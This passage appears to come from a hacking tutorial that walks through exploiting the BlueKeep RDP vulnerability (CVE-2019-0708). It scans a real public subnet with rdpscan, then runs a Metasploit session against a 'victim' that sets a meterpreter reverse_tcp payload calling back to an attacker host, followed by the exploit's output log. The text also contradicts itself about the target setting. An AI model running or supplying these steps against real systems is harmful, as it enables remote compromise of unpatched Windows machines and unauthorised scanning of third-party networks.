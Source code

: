 Or to scan a whole subnet

```bash
./rdpscan 182.253.0.0/24
```

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/ef414d05cfbab3c223121f74b2a840d0-2.png "Image-2")

This produces one of 3 results for each address scanned:

* **SAFE** - If the target has determined bot be patched or at least require CredSSP/NLA
* **VULNERABLE** - If the target has been confirmed to be vulnerable
* **UNKNOWN** - If the target doesn't respond or has some protocol failure

When nothing exists at a target IP address, the older versions print the message "UNKNOWN - connection timed out". When scanning large networks, this produces an overload of too much information about systems you don't care about.

You can increase the speed at which it scans large networks by increasing the number of workers:

```bash
rdpscan --workers 10000 182.253.0.0/24
```

* * *

###### LAUNCHING THE ATTACK

If you stand here, I'm sure you'll be impatient to open your Metasploit console to test this vulnerability. We will run Exploit the first time with the common below options to see what is happening on our victim's machine.

```bash
msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show options
[...]
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.1.105
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LHOST 192.168.1.102
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LPORT 4444
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
[...]
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set TARGET 2
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

In the above configuration, the victim machine is referenced as **192.168.1.105**, the attacker machine is referenced as **192.168.1.102**, we use a common reverse TCP payload made especially for Windows machine and we set the **target** as "1" for the moment.

**Output**

```bash
[*] Started reverse TCP handler on 192.168.1.102:4444
[+] 192.168.1.105:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.1.105:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8013200000, Channel count 1.
[*] 192.168.1.105:3389 - Surfing channels ...
[*] 192.168.1.105:3389 - Lobbing eggs ...
[*] 192.168.1.105:3389 - Forcing the USE of FREE\'d object ...
[*] Exploit completed, but no session was created.
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) >
```
